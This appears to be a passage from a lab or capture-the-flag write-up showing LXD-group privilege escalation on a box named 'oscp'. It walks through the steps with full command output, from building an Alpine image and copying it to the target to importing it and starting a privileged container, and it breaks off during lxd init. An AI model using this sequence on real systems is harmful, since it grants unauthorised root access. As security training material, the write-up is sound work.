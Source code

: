 ## lxc

Once we have a shell on the box we run `id` and found out that we are part of
the `lxd` group. This is a know privilege escalation.

    :::text
    ~ # -bash-5.0$ id
    uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)

When we try to run the `lxc` (or `lxd`) command we got an error `command not
found` so we run a quick search in order to find the binary path.

    :::text
    -bash-5.0$ lxc
    -bash: lxc: command not found
    -bash-5.0$ find / -name 'lxc' 2> /dev/null
    /snap/lxd/16100/bin/lxc
    /snap/lxd/16100/commands/lxc
    /snap/lxd/16100/lxc
    /snap/lxd/16044/bin/lxc
    /snap/lxd/16044/commands/lxc
    /snap/lxd/16044/lxc
    /snap/bin/lxc
    /usr/share/bash-completion/completions/lxc

Then we build clone the alipne image and build it on our system (as it require
root permission), then we transfer it to the box.

    :::text
    kali@kali:~$ git clone https://github.com/saghul/lxd-alpine-builder
    kali@kali:~$ cd lxd-alpine-builder/
    kali@kali:~lxd-alpine-builder$ sudo ./build-alpine -a i686
    Determining the latest release... v3.12
    Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86
    Downloading alpine-keys-2.2-r0.apk
    tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    <SNIP>
    18/19) Installing alpine-keys (2.2-r0)
    (19/19) Installing alpine-base (3.12.0-r0)
    Executing busybox-1.31.1-r19.trigger
    OK: 8 MiB in 19 packages
    kali@kali:~lxd-alpine-builder$ scp -i id_rsa alpine-v3.12-i686-20200717_0532.tar.gz oscp@192.168.1.200:
    alpine-v3.12-i686-20200717_0532.tar.gz

Then we try to import the image in the box. We first need to initialize `lxd`.

    :::text
    -bash-5.0$ /snap/bin/lxc image import ./alpine-v3.12-i686-20200717_0532.tar.gz --alias myimage
    If this is your first time running LXD on this machine, you should also run: lxd init
    To start your first instance, try: lxc launch ubuntu:18.04

    Image imported with fingerprint: dcf00931e4bc5f738cb5d843593151420e4c27cf7c8152a3b91ec6c75bf4db6d
    -bash-5.0$ /snap/bin/lxc init myimage mycontainer -c security.privileged=true
    Creating mycontainer
    Error: No storage pool found. Please create a new storage pool
    -bash-5.0$ /snap/bin/lxd init
    Would you like to use LXD clustering? (yes/no) [default=no]:
    Do you want to configure a new storage pool? (yes/no) [default=yes]:
    <SNIP>
    Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
